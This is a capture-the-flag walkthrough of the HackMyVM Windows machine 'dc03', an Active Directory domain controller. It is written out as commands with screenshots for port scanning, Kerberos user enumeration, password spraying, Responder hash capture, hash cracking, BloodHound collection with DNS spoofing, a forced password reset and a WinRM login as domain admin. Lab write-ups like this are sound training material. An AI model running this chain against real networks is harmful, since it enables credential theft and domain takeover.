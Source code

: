 
![dc03](https://github.com/user-attachments/assets/b242b6e1-5628-4c81-96fb-8816303b908e)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [josemlwdf](https://hackmyvm.eu/profile/?user=josemlwdf)         | [HackMyVm](https://hackmyvm.eu)     | Medium           | Windows   |

---






- I start with a scan of the open ports.
    
    ```
    nmap -p- --open --min-rate 5000 -sS -Pn 10.0.2.7 -oG scan
    ```
    
    ![Pasted image 20241118165859](https://github.com/user-attachments/assets/f8053767-5265-47c7-b24d-6b9d4f7e6945)
    
- I continue with a scan of the versions and technologies that are running on the open ports that we have found.
    
    ```
    nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,49664,49667,49680,49722 -sCV -Pn 10.0.2.7 -oN ports
    ```

	![Pasted image 20241118170111](https://github.com/user-attachments/assets/5870019e-7152-410e-97ce-3de98eecb858)

- Using kerbrute I search for valid users in the system.
	
	```python
	/opt/kerbrute_linux_386 userenum --dc 10.0.2.7 -d SOUPEDECODE.LOCAL /usr/share/seclists/Usernames/xato-net-10-million-usernames.txt
	```
	
  ![Pasted image 20241118171210](https://github.com/user-attachments/assets/918b9287-d8c7-4316-aa58-20e3e301a456)

- I check if with the found users I can access as password any of the users but I don't get anything.
	
	```python
	netexec smb -u users_kerbrute -p users_kerbrute --continue-on-success  10.0.2.7 
	netexec smb -u users_kerbrute -p users_kerbrute --continue-on-success --no-brute 10.0.2.7 
	netexec winrm -u users_kerbrute -p users_kerbrute --continue-on-success  10.0.2.7 
	netexec winrm -u users_kerbrute -p users_kerbrute --continue-on-success --no-brute 10.0.2.7 
	```

- After trying different things I listen to answer to sniff the traffic.
	
	```python
	responder -I eth0  -w -d
	```

  ![Pasted image 20241118220154](https://github.com/user-attachments/assets/1980ee68-3acf-4c56-b7cf-4f3c8b5e49e7)


- I find a NTLMv2 hash that when I try to break with john I get the password of the user xkate578 in clear text.
	
	```python
	john --wordlist=/usr/share/wordlists/rockyou.txt hashNTLMv2 
	```
	
  ![Pasted image 20241118220331](https://github.com/user-attachments/assets/32edbaa6-8c69-48df-b5d2-3f59e3af0006)


- I validate with these credentials the folders I have access to via smb and IPC$ and share are the most important ones.
	
	![Pasted image 20241118220813](https://github.com/user-attachments/assets/ce24bac1-ad91-4721-a083-bdaf9cd43c88)


- Thanks to having read permissions on IPC$ I am able to enumerate the system. From the information obtained, my user and the user fbeth103 stand out because of the groups to which they belong.
	
	```python
	ldapdomaindump -u 'SOUPEDECODE.LOCAL\xkate578' -p jesuschrist 10.0.2.7
	```
	
	![Pasted image 20241118221126](https://github.com/user-attachments/assets/37e1e105-d823-472f-9c4b-622a310d1f29)

	
	![Pasted image 20241118221515](https://github.com/user-attachments/assets/e704bfdf-fc63-4c94-a5f9-b09ee6be8255)


- Moving on now to the share folder, I list its contents and I manage to read the first flag
	
	```python
	smbclient -U "SOUPEDECODE.LOCAL/xkate578%jesuschrist" //10.0.2.7/share
	```
	
  ![Pasted image 20241118221845](https://github.com/user-attachments/assets/44e2593a-f844-4211-ba7d-220a885cebfd)


- I collect info with bloodhound-python to get another view of how the system is doing. At first it gives me a time failure and then another one with the dns server. To fix this second one I spoof the dns server on my machine with dnschef.

	```python
	dnschef --fakeip 10.0.2.7 
	ntpdate -u 10.0.2.7  ; bloodhound-python -u 'xkate578' -p 'jesuschrist' -ns 127.0.0.1 -d soupedecode.local -dc dc01.soupedecode.local --zip 
	```

- In this way I am able to extract the information and by deploying neo4j and bloodhound I am able to see graphically the relationships between users and groups.
	
	![Pasted image 20241122174803](https://github.com/user-attachments/assets/e468b93b-d530-4737-b9bf-b9e0b6e6ee04)


- It does not suggest to me any way to make a lateral move or escalate privileges. I look for information about the group that user xkate578 belongs to, which is the one I have his credentials for, and I see that I can change the password to users. I try to change it to user fbeth103.
	
	```python
	impacket-changepasswd SOUPEDECODE.LOCAL/fbeth103@10.0.2.8  -altuser xkate578 -altpass jesuschrist -newpass Pepe123. -reset 
	#It can also be done with rpcclient
	```
	
	![Pasted image 20241122183613](https://github.com/user-attachments/assets/b4317d0f-2ed5-47b8-ada7-63b0d1bf94cb)


- After changing the user's password and verifying that the new credentials are correct, I notice that this user is a member of “Operators” and member of “Domain Admins”. Thanks to this I can connect to the system and read the second flag.
	
	```python
	evil-winrm -i 10.0.2.8 -u fbeth103 -p Pepe123. 
	```

	![Pasted image 20241122183908](https://github.com/user-attachments/assets/ba7554e2-8f8e-4298-9723-67273c744b99)

	![Pasted image 20241122184136](https://github.com/user-attachments/assets/67f66348-1975-473c-8b89-87e148b3918d)
